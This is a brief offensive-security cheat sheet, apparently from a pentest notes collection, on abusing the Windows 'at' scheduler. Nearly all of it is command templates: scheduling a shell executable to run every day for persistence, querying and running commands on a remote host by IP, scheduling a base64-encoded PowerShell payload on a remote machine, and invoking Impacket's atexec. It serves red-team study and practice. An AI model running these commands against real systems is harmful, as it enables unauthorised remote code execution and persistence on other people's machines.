 # At

## 01 - Manual

```
C:\> at <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

## 02 - Usage

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> at <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

## 03 - Atexec

```
$ atexec
```

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)